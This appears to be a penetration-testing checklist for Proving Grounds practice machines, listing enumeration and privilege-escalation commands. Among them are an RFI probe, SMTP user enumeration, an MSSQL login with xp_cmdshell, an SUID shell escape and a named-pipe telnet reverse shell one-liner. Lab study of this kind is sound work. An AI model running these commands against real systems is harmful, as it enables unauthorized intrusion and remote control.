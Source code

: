## Generic check list / review based off PG Practice Machines

#### enumeration / intel
- Does the hostname give any clues
- Do exploits open up ports & can you connect to them [nc -nv]
- Are there default creds
- Attempt simple login creds
- Are there LFI possibilities
  - Can you read files
  - Can you transfer files [multi stage PHP transfer of shells]
- Are there RFI possibilities
  - index.php?page=http:// 
- Consider lesser used tools
  - sparta
  - feroxbuster
  - dirsearch.py
  - gcore
  - strings
  - ident-user-enum
  - whatweb
- sudo perl smtp-user-enum.pl -M VRFY -U /usr/share/seclists/Usernames/Names/names.txt -t $IP
- cewl -d 5 -m 3 http://website.com/teampage -w cewl.txt
- Any users, keys, or passwords in FTP files
- smbmap -u null -p null -H <IP> -s Scripting$ -R
- MSSQL & enable_xp_cmdshell
  - sudo python3 mssqlclient.py -port 1435 sa:password55@$(cat ip)
- nmap include scripts and exclude brute [nmap -n -sV --script "ldap* and not brute"]
- LDAP users
  - ldapsearch -x -h $IP -D '' -w '' -b "DC=domain,DC=local" | grep sAMAccountName
- IRC open = hexchat

#### privilege Escalation
  
- Can you escalate priv from SUID [find . -exec /bin/sh -p \; -quit]
- Do you have creds
  - sudo -l
- docker image ls
- Any scripts being used in auto or cron jobs
- GTFO
- fdisk -l [can you mount any]
- chmod 600 id_rsa
- scp for transfer
- mknod a p && telnet $IP 443 0<a | /bin/sh 1>a
- Unquoted paths
- psexec.py
- Get-EventLog -LogName 'Windows PowerShell' -Newest 1000 | Select-Object -Property * | out-file c:\users\scripting\logs.txt 

